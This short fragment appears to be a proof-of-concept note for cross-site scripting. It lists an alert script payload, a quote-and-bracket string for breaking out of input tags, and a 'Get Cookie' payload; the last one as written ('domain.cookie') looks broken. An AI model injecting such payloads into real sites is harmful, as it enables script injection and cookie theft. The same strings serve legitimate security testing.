 
Proof Of Concept:

`<script>alert('XSS');</script>`

This can be used to close tags (escape input tags and stuff) -
`">`

Get Cookie - 
`<script>alert(domain.cookie)</script>`